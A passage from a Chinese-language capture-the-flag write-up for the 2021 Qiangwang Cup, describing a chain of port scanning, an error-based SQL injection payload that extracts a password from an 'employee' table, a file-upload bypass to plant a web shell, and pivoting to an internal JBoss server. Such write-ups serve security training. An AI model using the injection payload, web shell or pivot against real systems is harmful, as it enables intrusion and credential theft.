 首先在：http://47.104.136.46/files/拿到hint:

```
Try to scan 35000-40000 ^_^.

All tables are empty except for the table where theusername and password are located

Table: employee

扫下端口在36842。

提示:

<!-- table: employee -->
```

### 无过滤，直接报错注入出密码:

```
password=admin&username=admin'or1=extractvalue(1,concat(0x7e,mid((select password from employee),16)))#

admin/99f609527226e076d668668582ac4420
```

### 站里面有个file路径，存在文件上传，简单绕一下过滤：

![2021第五届强网杯全国网络安全挑战赛线上赛 Write-Up](img/a1a31e22d7776b974ca872fc554f87d6.png)

写shell后ps -ef看到内网有个jboss，8006端口。

### 依旧是拿ew转发，发现是个默认界面，直接拿网上现成脚本一把梭：

![2021第五届强网杯全国网络安全挑战赛线上赛 Write-Up](img/faca76ea190d38b51f17781502396b5a.png)
